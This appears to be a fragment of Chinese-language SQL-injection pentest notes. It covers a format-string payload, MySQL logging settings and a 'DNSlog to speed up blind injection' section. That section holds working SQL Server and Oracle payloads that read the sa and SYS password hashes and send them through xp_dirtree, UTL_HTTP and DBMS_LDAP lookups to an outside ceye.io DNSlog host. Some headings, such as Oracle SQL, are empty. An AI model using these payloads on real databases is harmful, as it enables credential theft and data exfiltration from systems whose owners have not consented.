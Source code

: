 可以使用这样的payload:`%1$'`不会引起相关报错

## mysql设置

### 语句日志

General_log

```mysql
show variables like 'general_log';  -- 查看日志是否开启
set global general_log=on; -- 开启日志功能
show variables like 'general_log_file';  -- 看看日志文件保存位置
set global general_log_file='tmp/general.lg'; -- 设置日志文件保存位置
show variables like 'log_output';  -- 看看日志输出类型  table或file
set global log_output='table'; -- 设置输出类型为 table
set global log_output='file';   -- 设置输出类型为file

```



## ORACLE SQL





## HSQL

HQL:hibernate query language 即hibernate提供的面向对象的查询语言

https://segmentfault.com/a/1190000013568216

## 渗透技巧:使用dnslog加快盲注速度

![](http://pic.c1imber.top/blog/180630/8aC6fb4hHB.png?imageslim)

### i. SQL Server

```sql
DECLARE @host varchar(1024);
SELECT @host=(SELECT TOP 1
master.dbo.fn_varbintohexstr(password_hash)
FROM sys.sql_logins WHERE name='sa')
+'.ip.port.b182oj.ceye.io';
EXEC('master..xp_dirtree
"\\'+@host+'\foobar$"');
```

### ii. Oracle

```sql
SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;
```
